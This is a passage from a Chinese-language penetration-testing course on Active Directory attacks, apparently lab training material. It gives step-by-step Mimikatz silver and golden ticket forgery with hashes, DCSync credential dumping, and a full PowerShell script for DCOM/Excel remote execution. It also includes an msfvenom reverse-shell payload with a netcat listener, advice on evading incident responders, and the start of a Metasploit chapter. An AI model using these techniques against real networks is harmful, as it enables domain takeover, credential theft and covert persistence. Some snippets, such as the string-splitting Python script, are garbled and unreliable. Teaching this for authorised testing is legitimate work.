目前，这种攻击并没有为我们提供任何额外的访问权限，但它确实提供了灵活性，使我们能够选择从哪台机器使用票据。然而，如果某个服务注册了服务主体名称，这种情况就变得更有意思了。

之前，我们演示了我们可以破解服务账户密码哈希并从服务票据中获取密码。然后，该密码可用于访问服务账户可用的资源。

但是，如果服务账户在任何服务器上都不是本地管理员，我们就无法使用诸如 pass the hash 或 overpass the hash 等向量进行横向移动，因此在这种情况下，我们需要使用不同的方法。

> 与 Pass the Hash 一样，Overpass the Hash 也需要访问名为 Admin$ 的特殊管理员共享，而这反过来又需要目标机器上的本地管理员权限。


回想一下 Kerberos 认证的内部工作原理，服务器上以服务账户上下文运行的应用程序会检查服务票据中包含的组成员身份以确定用户权限。然而，应用程序并不会验证服务票据中的用户和组权限。应用程序盲目信任服务票据的完整性，因为它是用密码哈希加密的——理论上——只有服务账户和域控制器知道该哈希。

例如，如果我们向以服务账户 *iis_service* 上下文运行的 IIS 服务器进行身份验证，IIS 应用程序将根据服务票据中存在的组成员身份来确定我们在 IIS 服务器上拥有哪些权限。

然而，如果我们手头有服务账户密码或其关联的 NTLM 哈希，我们可以伪造自己的服务票据，以我们期望的任何权限访问目标资源（在我们的示例中是 IIS 应用程序）。这种自定义创建的票据被称为*银票据*[^675]，如果服务主体名称用于多台服务器，银票据可以利用于所有这些服务器。

Mimikatz 可以通过（有点误导性的）**kerberos::golden**[^676] 命令制作银票据并直接将其注入内存。我们将在模块的后面解释这种看似命名错误的原因。

为了创建票据，我们首先需要获取所谓的*安全标识符*或 *SID*[^677] 的域部分。SID 是 Active Directory 中任何对象的唯一名称，具有以下结构：

```text

S-R-I-S

```

**列表 706 - 安全标识符格式原型**

在此结构中，SID 以字面 “S” 开头以标识该字符串为 SID，随后是*修订级别*（通常设置为 “1”）、*标识颁发机构* 值（在 AD 中通常为 “5”）以及一个或多个*子授权* 值。

例如，实际的 SID 可能看起来像这样：

```text

S-1-5-21-2536614405-3629634762-1218571035-1116

```

**列表 707 - 安全标识符格式**

列表 707 中的前几个值（“S-1-5”）在 AD 中相当静态。*子授权* 值是动态的，由两个主要部分组成：域的*数字标识符*（在此例中为 “21-2536614405-3629634762-1218571035”）和代表域中特定对象的*相对标识符* 或 *RID*[^678]（在此例中为 “1116”）。

域值与相对标识符的组合有助于确保每个 SID 都是唯一的。

我们可以轻松使用 **whoami /user** 命令获取当前用户的 SID，然后从中提取域 SID 部分。让我们在 Windows 10 客户端上尝试这样做：

[^675]: (Sean Metcalf, 2016). https://adsecurity.org/?p=2011
[^676]: (Benjamin Delpy, 2016). https://github.com/gentilkiwi/mimikatz/wiki/module-~-~-kerberos
[^677]: (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/windows/desktop/aa379571(v=vs.85).aspx
[^678]: (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/windows/desktop/ms721604(v=vs.85).aspx_security_relative_identifier_gly

```cmd

C:\>whoami /user

USER INFORMATION

----------------

User Name SID

=========== ===============================================

corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103

```

**列表 708 - 定位域 SID**

定义域的 SID 是除结尾 RID（-1103）之外的整个字符串，如列表 708 中高亮所示。

既然我们有了域 SID，让我们尝试为我们之前在专用实验室域中发现的 IIS 服务制作一个银票据。

银票据命令需要用户名 (/user)、域名 (/domain)、域 SID (/sid)（上述已高亮）、服务的完全限定主机名 (/target)、服务类型 (/service:HTTP) 以及 iis_service 服务账户的密码哈希 (/rc4)。

最后，生成的银票据通过 /ppt 标志直接注入内存。

在运行之前，我们将使用 kerberos::purge 清除任何现有的 Kerberos 票据，并使用 kerberos::list 验证清除情况：

```text

mimikatz # kerberos::purge

Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D8AA966C327 /ppt

User    : offsec


Domain  : `corp.com` (CORP)

SID     : `S-1-5-21-1602875587-2787523311-2599479668`

User Id : `500`

Groups Id : `*513 512 520 518 519`

ServiceKey: `e2b475c11da2a0748290d8aa966c327` - `rc4_hmac_nt`

Service : `HTTP`

Target  : `CorpWebServer.corp.com`

Lifetime : `13/02/2018 10.18.42` ; `11/02/2028 10.18.42` ; `11/02/2028 10.18.42`

-> Ticket : **Pass The Ticket**

* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

`mimikatz # kerberos::list`

```
[00000000] - 0x00000017 - rc4_hmac_nt
```

开始/结束/最大续期次数：`2018-02-13 10:18:42` ; `2028-02-11 10:18:42` ; `2028-02-11 10:18:42`
服务器名称：`HTTP/CorpWebServer.corp.com @ corp.com`
客户端名称：`offsec @ corp.com`
标志 `40a00000` ：pre_authent ; renewable ; forwardable ;

清单 709 - 为 `iis_service` 服务账户创建银票（Silver Ticket）

如清单 709 中的输出所示，针对 SPN `HTTP/CorpWebServer.corp.com` 的新服务票据已加载到内存中，且 Mimikatz 在伪造的票据中设置了相应的组成员权限。从 IIS 应用程序的角度来看，当前用户既是内置的本地管理员（相对标识符：`500`），也是多个高权限组的成员，其中包括 Domain Admins 组（如上所示高亮显示）。

*为了创建银票，我们使用的是密码哈希值，而不是明文密码。如果 kberoast 会话向我们提供了明文密码，我们必须在生成银票之前对其进行哈希处理。*

现在我们已经将该票据加载到内存中，我们可以与该服务进行交互，并根据我们在银票中设置的组成员身份访问任何信息。根据服务类型的不同，也可能获得代码执行权限。

## 21.4.3.1 练习

- 创建并注入 `iis_service` 账户的银票。
- 为 SQL 服务创建一个具有 Domain Admins 组组成员身份的银票，如何提供一种在关联服务器上获得任意代码执行权限的方法？
- 为 SQL 服务账户创建一个银票。

### 21.4.4 分布式组件对象模型

在本节中，我们将更仔细地研究一种相当新的横向移动技术，该技术利用了分布式组件对象模型（DCOM）。^[679]

*还有两种值得一提的其他知名横向移动技术：滥用 Windows 管理工具架构^[680] 以及一种称为 PowerShell 远程的技术。^[681] 虽然我们在本节中不会详细介绍这些方法，但它们也各有优缺点，并且在 PowerShell^[682] 和 Python^[683] 中都有多种实现。*

微软组件对象模型（COM）是一个用于创建相互交互的软件组件的系统。虽然 COM 是为同进程或跨进程交互创建的，但它被扩展为分布式组件对象模型（DCOM），用于通过网络在多台计算机之间进行交互。

COM 和 DCOM 都是非常古老的技术，可以追溯到 Windows 的早期版本。^[684] 与 DCOM 的交互是通过 TCP 端口 `135` 上的 RPC 进行的，并且需要本地管理员权限来调用 DCOM 服务控制管理器，这本质上是一个 API。

与 Microsoft Office 相关的 DCOM 对象允许横向移动，既可以通过使用 Outlook^[685]，也可以通过 PowerPoint。^[686] 由于这要求目标计算机上存在 Microsoft Office，因此这种横向移动技术最适合针对工作站。然而，在我们的案例中，我们将在实验室中针对已安装 Office 的专用域控制器来演示此攻击。具体来说，我们将利用 *Excel.Application* DCOM 对象。^[687]

在我们能够利用 Microsoft Office 之前，我们必须先在 Windows 10 学生虚拟机和域控制器上安装它。安装程序位于 `C:\tools\client_side_attacks\Office2016.img`，过程与客户端攻击模块中执行的过程相同。

首先，我们必须使用 PowerShell 发现该 DCOM 对象的可用方法或子对象。在这个示例中，我们作为 `jeff_admin` 用户从 Windows 10 客户端操作，该用户是远程机器上的本地管理员。

在此示例代码中，我们首先使用 PowerShell 和 `System.Activator` 类的 `CreateInstance` 方法^[688] 创建该对象的一个实例。

作为 `CreateInstance` 的参数，我们必须通过使用 `GetTypeFromProgID` 方法^[689] 提供其类型，指定程序标识符（在本例中为 `Excel.Application`），以及远程工作站的 IP 地址。

一旦实例化了对象，我们可以使用 `Get-Member` cmdlet 来发现其可用方法和对象。^[690]

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$com | Get-Member
```

清单 710 - 创建 DCOM 对象并枚举方法的代码

该脚本产生以下截断的输出：

```text
TypeName: System.__COMObject#({000208D5-0000-0000-C000-000000000046})
Name MemberType Definition
---- ------------ --------
ActivateMicrosoftApp Method void ActivateMicrosoftApp (XLMSApplication)
AddChartAutoFormat Method void AddChartAutoFormat (Variant, string, Varia
... ... ...
ResetTipWizard Method void ResetTipWizard ()
Run Method Variant Run (Variant...)
Save Method void Save (Variant)
... ... ...
Workbooks Property Workbooks Workbooks () {get}...
```

清单 711 - 显示 Run 方法的输出

输出中包含许多方法和对象，但我们将重点关注 `Run` 方法，^[691] 它允许我们远程执行 Visual Basic for Applications (VBA) 宏。

为了使用它，我们首先通过选择 `VIEW` 选项卡并在 Excel 内点击 `Macros` 来创建一个包含概念验证宏的 Excel 文档。

在这个简单的概念验证中，我们将使用一个启动 `notepad.exe` 的 VBA 宏：

```vb
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

清单 712 - Excel 的概念验证宏

我们将宏命名为 "mymacro"，并将 Excel 文件保存为遗留的 `.xls` 格式。

为了执行该宏，我们必须先将 Excel 文档复制到远程计算机。由于利用 DCOM 必须具有本地管理员权限，因此我们还应该能够通过 SMB 访问远程文件系统。

我们可以使用 .NET `System.IO.File` 类的 `Copy` 方法^[692] 来复制文件。要调用它，我们需要指定源文件、目标文件以及一个指示如果存在是否应覆盖目标文件的标志，如下面的 PowerShell 代码所示：

```powershell
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```


### 清单 713 - 将 Excel 文档复制到远程计算机

在我们能够在宏上执行 `Run` 方法之前，我们必须首先指定包含它的 Excel 文档。这是通过 `Workbooks` 对象的 `Open` 方法^[693] 完成的，该方法也可以通过 DCOM 使用，如方法和对象的枚举所示：

| 名称 | 成员类型 | 定义 |
| :--- | :--- | :--- |
| ActivateMicrosoftApp | Method | void ActivateMicrosoftApp (XLMSApplication) |
| AddChartAutoFormat | Method | void AddChartAutoFormat (Variant, string, Variant) |
| ... | | |
| ResetTipWizard | Method | void ResetTipWizard () |
| Run | Method | Variant Run (Variant...) |
| Save | Method | void Save (Variant) |
| ... | | |
| `Workbooks` | Property | `Workbooks Workbooks () { get}` |

### 清单 714 - 显示 Workbooks 属性的输出

`Workbooks` 对象是从我们之前创建的用于执行枚举的 `$com` COM 句柄创建的。

我们可以使用类似以下代码直接调用 `Open` 方法：

```powershell
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
```

### 清单 715 - 在 DC 上打开 Excel 文档

然而，在与远程计算机交互时，此代码会导致错误：

```powershell
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

Unable to get the Open property of the Workbooks class

At line:1 char:1

+ $Workbook = $com.Workbooks.Open("C:\myexcel.xls")

+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    + CategoryInfo          : OperationStopped: ({} , COMException

    + FullyQualifiedErrorId : System.Runtime.InteropServices.COMException
```

### 清单 716 - 尝试打开电子表格时的错误

此错误的原因是，当 `Excel.Application` 通过 DCOM 实例化时，它是使用 SYSTEM 账户进行的。^[695] SYSTEM 账户没有配置文件，而配置文件是打开过程的一部分。要解决这个问题，我们可以简单地在 `C:\Windows\SysWOW64\config\systemprofile` 处创建 `Desktop` 文件夹，从而满足此配置文件要求。

我们可以使用以下 PowerShell 代码创建此目录：

```powershell
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

### 清单 717 - 创建 SYSTEM 配置文件文件夹

---

^679 (Microsoft, 2017). https://msdn.microsoft.com/en-us/library/cc226801.aspx
^680 (Matt Graber, 2015). https://www.blackhat.com/docs/us-15/materials/us-15-Graber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
^681 (Microsoft, 2017). https://msdn.microsoft.com/en-us/library/aa384426(v=vs.85).aspx
^682 (Will Schroeder, 2016), http://www.harmj0y.net/blog/empire/expanding-your-empire/
^683 (Justin Elze, 2015), https://www.trustedsec.com/2015/06/no_psexec_needed/
^684 (Wikipedia, 2018), https://en.wikipedia.org/wiki/Component_Object_Model
^685 (@enigma0x3, 2017), https://enigma0x3.net/2017/11/14/lateral-movement-using-outloks-createobject-method-and-dotnetjavascript/
^686 (@_nephalem_, 2018), https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/
^687 (Matt Nelson, 2017), https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
^688 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/wcwz28w3(v=vs.110).aspx
^689 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/et83z76(v=vs.110).aspx
^690 (Microsoft, 2018), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-member?view=powershell-6
^691 (Microsoft, 2018), https://msdn.microsoft.com/en-us/vba/excel-vba/articles/run-method-excel
^692 (Microsoft, 2018), https://docs.microsoft.com/en-us/dotnet/api/system.io.file.copy
^693 (Microsoft, 2017), https://msdn.microsoft.com/en-us/vba/excel-vba/articles/workbooks-open-method-excel
^694 (Microsoft, 2017), https://msdn.microsoft.com/en-us/vba/excel-vba/articles/workbooks-object-excel
^695 (Matt Nelson, 2017), https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/

## 既然已经为 SYSTEM 账户创建了配置文件文件夹，我们可以再次尝试调用 `Open` 方法，此时该方法应当能够成功执行并打开 Excel 文档。

既然文档已经打开，我们就可以使用以下完整的 PowerShell 脚本调用 `Run` 方法。

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [System.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```


列表 718 - 远程执行 Excel 宏的概念验证代码

如图中图 312 所示，这段代码应该在远程机器上以一个高完整性上下文的后台进程形式打开 `Notepad` 应用程序。


图 312. 从 Excel 启动 Notepad

虽然创建远程 `Notepad` 应用程序很有趣，但我们需要升级此攻击以启动反向 shell。由于我们使用的是 Office 文档，我们可以直接复用之前在某个模块中介绍的 Microsoft Word 客户端代码执行技术。

为此，我们将使用 `msfvenom` 创建一个用于 HTA 攻击的 payload，因为它包含了将与 `PowerShell` 一起使用的 Base64 编码 payload：

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta

No platform was selected, choosing Msf::Module::Platform:Windows from the payload

No Arch selected, selecting Arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 324 bytes

Final size of hta-psh file: 6461 bytes

Saved as: evil.hta
```

列表 719 - 使用 `msfvenom` 创建 HTA payload

请注意，我们使用的是 Windows 10 客户端第二个网络接口的 IP 地址，以便域控制器可以回调到我们的 Netcat 监听器。

接下来，我们提取以 "`powershell.exe -nop -w hidden -e`" 开头并跟随 Base64 编码 payload 的那一行，并使用列表 720 中的简单 Python 脚本将命令拆分为更小的块，从而绕过 Excel 宏中字符串字面量的大小限制：

```python
str = "powershell.exe -nop -w hidden -e aQ8mAGcAwWB3AG4AdABQ...."

n = 50

for i in range(0, len(str), n):
    print(str = Str + " " + str[i:i+n] + "")
```

列表 720 - 用于拆分 Base64 编码字符串的 Python 脚本

现在我们将更新 Excel 宏，使其执行 `PowerShell` 而不是 `Notepad`，并重复将其上传到域控制器并执行的步骤。

```vba
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e aQ8mAGcAwWB3AG4Ad"
    Str = Str + "ABQAHQAegBdADoAgBTAAGAAegBLACAALQB1AHEAIAA@ACkAeWA"
    ...
    Str = Str + "EQAaQBhAGcABgBvAHMAAdA gBpAGAwAuAfAAAcgBvAGMAZQBZAHM"
    Str = Str + "AXQAADoAwUB@AGEAcB@AgGAGAJAbZAcAOwA="
    Shell(Str)
End Sub
```

列表 721 - 使用拆分后的 Base64 编码字符串更新宏

在执行宏之前，我们将在 Windows 10 客户端上启动一个 Netcat 监听器，以接收来自域控制器的反向命令 shell：

```powershell
PS C:\Tools\practical_tools> nc.exe -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.111] from (UNKNOWN) [192.168.1.110] 59121
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

列表 722 - 通过 DCOM 横向移动技术获取的反向 shell

虽然该攻击需要同时访问 TCP 135（用于 DCOM）和 TCP 445（用于 SMB），但这仍然是一个相对较新的横向移动向量，可能会避开某些检测系统，例如网络入侵检测系统或基于主机的防病毒软件。

### 21.4.4.1 练习

- 重复使用 Excel 和 DCOM 启动 Notepad 的练习。
- 通过将 VBA 宏替换为连接回您的 Windows 学生虚拟机上 Netcat 的反向 shell 来改进攻击。
- 设置从域控制器到 Kali 主机的跳板通道并获取反向 shell。

### 21.5 Active Directory 持久化

一旦我们获得访问权限并实现项目的既定目标，我们的下一个目标就是获取持久化，确保不会失去对已入侵机器的访问权限。

我们可以在 AD 环境中使用传统的持久化方法，也可以获取 AD 特有的持久化。请注意，在许多实际的渗透测试或红队行动中，由于评估完成后可能无法完全清除的风险，持久化通常不在范围内。

#### 21.5.1 黄金票据

回顾一下 Kerberos 认证的说明，我们记得当用户提交 TGT 请求时，KDC 会使用仅域内 KDC 知道的秘密密钥对 TGT 进行加密。这个秘密密钥实际上是一个名为 `krbtgt` 的域用户账户的密码哈希。[^696]

如果我们能够获取 `krbtgt` 的密码哈希，我们就可以创建自己的自定义 TGT，或者说是黄金票据。

例如，我们可以创建一个 TGT，声称一个非特权用户实际上是域管理员组的成员，域控制器会信任它，因为它是正确加密的。

> 我们必须仔细保护被盗的 `krbtgt` 密码哈希，因为它授予无限的域访问权限。在执行此技术之前，请考虑获取客户的许可。

这提供了一种在 Active Directory 环境中保持持久化的巧妙方法，但最大的优势在于 `krbtgt` 账户的密码不会自动更改。

事实上，该密码仅在域功能级别从 Windows 2003 升级到 Windows 2008 时才会更改。因此，发现非常古老的 `krbtgt` 密码哈希并不罕见。

> 域功能级别[^697] 决定了域的功能，并确定可以在域上运行的 Windows 操作系统。

[^696] (Microsoft, 2016), https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(\_=\_=ws.11)#Sec_KRBTGT

[^697] (Microsoft, 2017), https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/understanding-active-directory-domain-services--ad-ds--functional-levels

域控制器。较高的功能级别启用了额外的功能、特性和安全缓解措施。

为了测试这种持久化技术，我们将首先尝试通过 `PsExec` 以 `OffSec` 用户身份从 Windows 10 工作站横向移动到域控制器。由于我们没有适当的权限，这应该会失败：

```cmd
C:\Tools\active_directory> psexec.exe \\dc01 cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
Couldn't access dc01:
Access is denied.
```


在此阶段的项目中，我们应该拥有域管理员组成员的账户访问权限，或者我们已经攻破了域控制器本身。

凭借这种级别的访问权限，我们可以使用 `Mimikatz` 提取 `krbtgt` 账户的密码哈希。

为了模拟这种情况，我们将使用 `jeff_admin` 账户通过远程桌面登录到域控制器，从 `C:` 文件夹运行 `Mimikatz`，并执行如下所示的 `lsadump::lsa` 命令。

```text
mimikatz # privilege::debug
```


# Privilege '20' OK

```
mimikatz # lsadump::lsa /patch
```

Domain : `CORP` / `S-1-5-21-1602875587-2787523311-2599479668`

RID : `000001f4` (500)

User : `Administrator`

LM :

NTLM : `e2b475c11da2a0748290d87aa966c327`

RID : `000001f5` (501)

User : `Guest`

LM :

NTLM :

RID : `000001f6` (502)

User : `krbtgt`

LM :

NTLM : `75b60230a2394a812000dbfad8415965`

...


> *<sup>698</sup> Benjamin Delply, 2016, https://github.com/gentilkiwi/mimikatz/wiki/module~lsadump*

创建黄金票据并将其注入内存无需任何管理权限，甚至可以从未加入域计算机上执行。我们将获取哈希值，并从受入侵的工作站继续执行此流程。

在生成黄金票据之前，我们将使用 `kerberos::purge` 删除任何现有的 Kerberos 票据。

我们将提供域 SID（可以通过 `whoami /user` 获取）给 Mimikatz 的 `kerberos::golden` 命令，以创建黄金票据。这次我们将使用 `/krbtgt` 选项代替 `/rc4` 来表示我们提供的是密码哈希。我们将黄金票据的用户名设置为 `fakeuser`。这是允许的，因为域控制器信任任何由 krbtgt 密码哈希正确加密的内容。

```
mimikatz # kerberos::purge
```

Ticket(s) purge for current session is OK

```
mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

User : `fakeuser`

Domain : `corp.com` (`CORP`)

SID : `S-1-5-21-1602875587-2787523311-2599479668`

User Id : 500

Groups Id : *513 512 520 518 519

ServiceKey : `75b60230a2394a812000dbfad8415965` - `rc4_hmac_nt`

Lifetime : 14/02/2018 15.08.48 ; 12/02/2028 15.08.48 ; 12/02/2028 15.08.48

-> Ticket : ** Pass The Ticket **

* PAC generated

* PAC signed

* EncTicketPart generated

* EncTicketPart encrypted

* KrbCred generated

Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session

```
mimikatz # misc::cmd
```

Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24

使用黄金票据选项时，Mimikatz 提供两组默认值，即用户 ID 和组 ID。用户 ID 默认为 500，这是域内置管理员的 RID，而组 ID 的值由 Active Directory 中权限最高的组组成，包括域管理员组。

将黄金票据注入内存后，我们可以使用 `misc::cmd` 启动新的命令提示符，并再次尝试使用 PsExec 进行横向移动。

```
C:\Users\offsec.corp> psexec.exe /d cmd.exe
```

PsExec v2.2 - Execute processes remotely

Copyright (C) 2001-2016 Mark Russinovich

Sysinternals - www.sysinternals.com

> 列表 726 - 使用黄金票据和 PsExec 执行横向移动

我们在域控制器上拥有了交互式命令提示符，并注意到 `whoam` 命令显示我们是用户 `fakeuser`，该用户在域中不存在。列出组成员身份显示，我们是多个强大组的成员，包括域管理员组。太棒了。

> *使用不存在的用户名可能会引起事件处理人员的注意，如果他们正在审查访问日志。为了减少怀疑，考虑使用现有系统管理员的名称和 ID。*

请注意，通过创建我们自己的 TGT 并使用 PsExec，我们利用 Kerberos 认证执行了过哈希攻击。如果我们将 PsExec 连接到域控制器的 IP 地址而不是主机名，我们将强制使用 NTLM 认证，如下一个列表所示，访问仍会被阻止。


```
C:\Windows\system32> ipconfig
```

Windows IP Configuration

Ethernet adapter Ethernet0:

Connection-specific DNS Suffix . . . :

Link-local IPv6 Address . . . . . . . : fe80::7959:aaad:eec:3969%2

IPv4 Address. . . . . . . . . . . . . : 192.168.1.110

Subnet Mask . . . . . . . . . . . . . . : 255.255.255.0

Default Gateway . . . . . . . . . . . : 192.168.1.1

...

```
C:\Windows\system32> whoam /fakeuser
```

corp\fakeuser

```
C:\Windows\system32> whoam /groups
```

GROUP INFORMATION

-----------------

Group Name            Type          Attributes

============          ====          ============================

Everyone              Well-known group Mandatory group, Enabled by default

BUILTIN\Administrators Alias        Mandatory group, Enabled by default

BUILTIN\Users         Alias         Mandatory group, Enabled by default

...

NT AUTHORITY\Authenticated Users Well-known group Mandatory group, Enabled by default

NT AUTHORITY\This Organization Well-known group Mandatory group, Enabled by default

CORP\Domain Admins   Group         Mandatory group, Enabled by default

CORP\Group Policy Creator Owners Group     Mandatory group, Enabled by default

CORP\Schema Admins      Group        Mandatory group, Enabled by default

CORP\Enterprise Admins   Group         Mandatory group, Enabled by default

...

Mandatory Label\High Mandatory Level Label


> 列表 727 - 使用 NTLM 认证阻止了我们的访问

### 21.5.1.1 练习

1. 重复上述步骤，提取 `krbtgt` 密码哈希并创建和使用黄金票据。
2. 为什么在从 Windows 2003 升级到 Windows 2008 的功能级别升级期间，`krbtgt` 账户的密码哈希会改变？

#### 21.5.2 域控制器同步

在 Active Directory 基础设施中实现驻留的另一种方法是窃取域中所有管理员用户的密码哈希。

为此，我们可以横向移动到域控制器并运行 `Mimikatz` 以提取每个用户的密码哈希。我们还可以窃取 `NTDS.dit` 数据库文件的副本，该文件是存储在硬盘上的所有 Active Directory 账户的副本，类似于用于本地账户的 `SAM` 数据库。

虽然这些方法可能有效，但它们会留下访问痕迹，并且可能需要我们上传工具。一种替代方案是利用 AD 功能本身从工作站远程捕获哈希。

在生产环境中，域通常有多个域控制器以提供冗余。目录复制服务远程协议使用复制来同步这些冗余的域控制器。域控制器可以使用 `IDL_DRSGetNCChanges` API 请求特定对象（如账户）的更新。

幸运的是对我们来说，接收更新请求的域控制器不验证请求是否来自已知的域控制器，只验证关联的 `SID` 是否具有适当的权限。如果我们尝试从域管理员组的成员向域控制器发出非法的更新请求，它将成功。

在接下来的示例中，我们将以 `jeff\admin` 身份登录到 Windows 10 客户端，以模拟域管理员账户被入侵并执行复制。

我们将打开 `Mimikatz` 并使用 `lsadump::dcsync` 开始复制，使用 `user` 选项来指示要同步的目标用户，在这种情况下是内置域管理员账户 `Administrator`，如列表 7.28 所示。

```
mimikatz # lsadump::dcsync /user:Administrator

[DC] 'corp.com' will be the domain

[DC] 'DC01.corp.com' will be the DC server

[DC] 'Administrator' will be the user account

Object RDN           : Administrator

* SAM ACCOUNT *

SAM Username        : Administrator

User Principal Name : Administrator@corp.com

Account Type        : 30000000 ( USER_OBJECT )

User Account Control: 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )

Account expiration  :

Password last change: 05/02/2018 19.33.10

Object Security ID  : S-1-5-21-1602875587-2787523311-2599479668-500

Object Relative ID  : 500

Credentials:

Hash NTLM: e2b475c11da2a0748290d87aa966c327

ntlm- 0: e2b475c11da2a0748290d87aa966c327

lm - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:

* Primary:NTLM-Strong-NTOWF *

Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

* Primary:Kerberos-Newer-Keys *

Default Salt : CORP.COMAdministrator

Default Iterations: 4096

Credentials

aes256_hmac (4096): 4c630b998619dc7a0788da81ae59032cc97c5160d0d9bed85cfd5af02dabf01

aes128_hmac (4096): 85b6ed5482f159858daadd7f1d9b818a

des_cbc_md5 (4096): 021c6df8bf07834a

* Primary:Kerberos *

Default Salt : CORP.COMAdministrator

Credentials

des_cbc_md5     : 021c6df8bf07834a

* Packages *

NTLM-Strong-NTOWF

* Primary:WDigest *

01 4ec8821bb09675db670e66998d2161bf

02 3c9be2ff39c36efd2f84b63aa656d09a

03 2cf1734936287692601b7e3fc801e2d7

04 4ec8821bb09675db670e66998d2161bf
```

## 21.6 总结

本模块概述了 Active Directory 及其相关安全性的见解。虽然在此处提及并解释了多种技术，但仍有许多其他技术值得探索。

特别值得注意的是，本模块对操作安全（Operational Security）几乎没有涉及。根据客户的成熟度，在枚举和横向移动时，可能值得花些心思来避免检测，即不要盲目地执行展示的所有单一命令和技术。

## 22. Metasploit 框架

在我们完成前面的模块学习后，应该很明确，使用公开的漏洞利用（`exploit`）工具是困难的。它们必须针对每个场景进行修改，必须测试是否存在恶意代码，每个工具都有独特的命令行语法，并且在编码实践或语言方面没有标准化。一些利用工具是用 `Perl` 编写的，一些是用 `C` 编写的，另一些是用 `PowerShell` 编写的，我们甚至见过需要复制并粘贴到 `Ncat` 连接中才能部署的漏洞利用载荷（`payload`）。

此外，即使是最基本的攻击场景，也必须考虑各种后渗透工具、辅助工具以及无数的攻击技术。

漏洞利用框架旨在解决这些问题的全部或部分。尽管它们在形式和功能上略有不同，但每个框架都旨在通过提供多种漏洞利用工具、简化这些工具的使用、促进横向移动以及协助管理已入侵的基础设施，来整合并简化漏洞利用过程。大多数此类框架提供动态载荷功能。这意味着对于框架中的每个漏洞利用工具，我们都可以选择部署各种载荷。

在过去几年中，开发了几种漏洞利用和后渗透框架，包括 `Metasploit`[705]、`Core Impact`[706]、`Immunity Canvas`[707]、`Cobalt Strike`[708] 和 `PowerShell Empire`[709]，每种框架都提供了上述功能的全部或部分。

虽然许多此类框架是商业产品，但 `Metasploit` 框架（`MSF`，或简称 `Metasploit`）是开源的，更新频繁，并且是本模块的重点。

正如作者所述，由 `Rapid7`[710] 维护的 `Metasploit` 框架是一个“用于开发、测试和使用漏洞利用代码的高级平台”。该项目最初作为一个便携式网络游戏起步[711]，并演变为渗透测试、漏洞利用开发和漏洞研究的强大工具。该框架已缓慢但确定地成为安全审计人员领先的免费漏洞利用收集开发框架。`Metasploit` 经常更新新的漏洞利用工具，并不断由 `Rapid7` 和安全社区进行改进和进一步开发。

`Kali Linux` 包含了 `metasploit-framework` 软件包，其中包含 `Metasploit` 项目的开源部分。对于 `Metasploit` 框架（`MSF`）的新手来说，常常会被该工具众多的功能和不同的用例所淹没。`Metasploit` 框架在渗透测试的几乎每个阶段都很有价值，包括信息收集、漏洞研究与开发、客户端攻击、后渗透等。

由于功能如此强大，人们很容易在 `Metasploit` 中迷失方向。幸运的是，该框架设计周密，提供统一且合理的界面。

在本模块中，我们将对 `Metasploit` 框架进行逐步演示，包括功能和使用方法，并解释其内部工作原理。

### 22.1 Metasploit 用户界面和设置

虽然 `Metasploit` 框架预装在 `Kali Linux` 中，但 `Metasploit` 依赖的 `postgresql` 服务在启动时既未激活也未启用。我们可以使用以下命令启动所需的服务：

```bash
kali@kali:~$ sudo systemctl start postgresql
```
